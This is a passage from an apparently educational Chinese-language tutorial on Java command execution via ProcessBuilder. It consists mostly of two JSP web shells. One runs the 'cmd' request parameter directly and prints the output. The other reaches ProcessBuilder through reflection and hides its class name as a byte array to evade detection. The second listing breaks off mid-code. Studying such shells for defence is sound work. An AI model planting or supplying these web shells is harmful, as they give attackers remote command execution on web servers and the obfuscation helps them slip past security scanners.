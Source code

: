 ### ProcessBuilder命令执行

学习`Runtime`命令执行的时候我们讲到其最终`exec`方法会调用`ProcessBuilder`来执行本地命令，那么我们只需跟踪下Runtime的exec方法就可以知道如何使用`ProcessBuilder`来执行系统命令了。

#### process-builder.jsp

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page contentType="text/html;charset=UTF-8" %>

<%
  //注意此处用了request.getParameterValues方法，因为ProcessBuilder只能接收字符数组
  InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();

  ByteArrayOutputStream baos = new ByteArrayOutputStream();

  byte[] bytes = new byte[1024];
  int a;

  while ((a = in.read(bytes)) != -1){
    baos.write(bytes,0,a);
  }

  out.write(baos.toString());
%>
```

<img src="image/image-20230709215015163.png" alt="image-20230709215015163" style="zoom:80%;" />

### JSP反射ProcessBuilder类命令执行

#### reflect-processbuilder.jsp

```java
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page contentType="text/html;charset=UTF-8" %>

<%
  //接收request数组对象
  Object cmd = request.getParameterValues("cmd");

  //反射获取java.lang.ProcessBuilder类
  Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 66, 117, 105, 108, 100, 101, 114}));

  //反射获取有参构造器
  Constructor constructor = clazz.getConstructor(String[].class);

  //反射获取start方法
  Method method_start = clazz.getMethod("start");

  //实例化获取对象
```